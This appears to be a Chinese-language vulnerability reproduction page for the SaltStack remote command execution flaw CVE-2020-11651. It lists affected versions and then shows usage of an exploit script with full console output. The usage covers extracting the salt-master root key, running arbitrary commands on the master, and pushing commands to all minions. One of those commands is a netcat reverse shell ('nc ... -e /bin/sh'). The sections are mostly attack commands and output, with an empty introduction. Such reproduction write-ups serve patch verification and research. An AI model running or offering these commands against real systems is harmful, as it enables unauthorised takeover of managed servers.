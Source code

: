 （CVE-2020-11651）SaltStack远程命令执行漏洞
===========================================

一、漏洞简介
------------

二、漏洞影响
------------

SaltStack \< 2019.2.4SaltStack \< 3000.2

三、复现过程
------------

### Usage

默认操作（不带参数）是获取给定主机的密钥:

    root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Salt version: 3000.1
    [ ] This version of salt is vulnerable! Check results below
    [+] Checking salt-master (192.168.115.130:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651...
    [*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
    root@kalimah:~/salt#

在主机上执行任意命令:

    root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec "nc 127.0.0.1 4444 -e /bin/sh"
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Salt version: 3000.1
    [ ] This version of salt is vulnerable! Check results below
    [+] Checking salt-master (192.168.115.130:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651...
    [*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
    [+] Attemping to execute nc 127.0.0.1 4444 -e /bin/sh on 192.168.115.130
    [+] Successfully scheduled job: 20200504153851746472
    root@kalimah:~/salt#

The same, but on all minions:

    root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec-all="apt-get upgrade -y"
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Salt version: 3000.1
    [ ] This version of salt is vulnerable! Check results below
    [+] Checking salt-master (192.168.115.130:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651...
    [*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
    [!] Lester, is this what you want? Hit ^C to abort.
    [+] Attemping to execute 'apt-get upgrade -y' on all minions connected to 192.168.115.130
    [+] Successfully submitted job to all minions.
    root@kalimah:~/salt#

